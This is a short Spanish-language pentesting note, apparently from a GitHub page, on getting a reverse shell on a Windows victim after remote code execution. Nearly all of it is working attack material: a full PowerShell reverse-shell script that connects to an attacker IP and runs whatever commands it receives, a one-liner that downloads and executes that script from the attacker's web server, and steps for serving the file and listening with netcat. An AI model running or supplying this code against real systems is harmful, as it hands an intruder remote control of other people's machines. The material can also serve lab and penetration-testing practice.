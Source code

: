Si tenemos RCE en la máquina víctima, ejecutamos este código mediante el comando `powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.41.7/rev.ps1')\"`

Código powershell que establece revshell:
```
$LHOST = "10.10.41.7"; $LPORT = 1234; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
### Pasos:
1. Nos copiamos el código revshell en un fichero en nuestra máquina atacante.
2. Creamos servidor con python para compartir el fichero `python3 -m http.server 80`
3. Nos ponemos en escucha en el puerto indicado `nc -nvlp 1234`
4. Ejecutamos en la máquina víctima el siguiente comando que descargará el código de powershell compartido por el servicio http nuestro y lo ejecutará con powershell:
	`powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.41.7/rev.ps1')\"`